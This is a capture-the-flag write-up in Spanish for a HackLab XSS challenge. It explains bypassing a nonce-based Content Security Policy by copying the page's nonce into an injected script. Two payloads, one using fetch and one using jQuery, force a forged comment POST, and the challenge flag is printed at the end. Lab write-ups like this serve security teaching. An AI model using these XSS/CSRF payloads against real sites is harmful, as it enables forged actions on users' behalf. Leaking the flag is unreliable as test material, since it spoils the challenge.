





# Desafío 8 - El blog de Pepe segurizado

**Plataforma:** HackLab (SoftwareSeguro)  
**Categoría:** XSS  

## Análisis

Segunda versión del "Blog de Pepe" (la saga empieza en el Desafío 7 y sigue en el Desafío 29 y el Desafío 43).

La página tiene una CSP (Content Security Policy) estricta que requiere un `nonce` válido para ejecutar scripts. La vulnerabilidad consiste en extraer ese `nonce` del código fuente de la página e inyectar un bloque `<script>` autorizado.

## Explotación

### Solución 1

Se intercepta la petición y se modifica el campo `txtComentario` para inyectar un script con el `nonce` extraído del HTML fuente:

```http
txtComentario=<script nonce="NDM5OTA=">
    fetch('/comentarios.php', {
        method: 'POST',
        headers: { 'Content-Type': 'application/x-www-form-urlencoded', },
        body: 'txtComentario=Voy+a+derogar+la+ley+1542-A&btnEnviar=Enviar'
    });
</script>&btnEnviar=Enviar
```


### Solución 2

Alternativa usando jQuery (`$.post`) para el CSRF:

```html
</textarea></table>
<script nonce="NDM5OTA=">
    // Ejecuta la función cuando el DOM esté listo
    $(document).ready(function() {
        // Datos del POST
        var postData = {
            txtComentario: "Voy a derogar la ley 1542-A",
            btnEnviar: "Enviar"
        };
        // Realiza la petición POST de CSRF
        $.post("/comentarios.php", postData)
            .done(function(data) {
                // Redirigir a una página limpia para evitar bucles
                window.location.href = "/comentarios.php";
            })
            .fail(function(xhr, status, error) {
                // Manejar errores
            });
    });
</script>
```

> Este código no para de ejecutar la petición en bucle hasta que se redirige.














## Flag

```
c4c309a13c8fc4c5f48e72e4154dc812
```
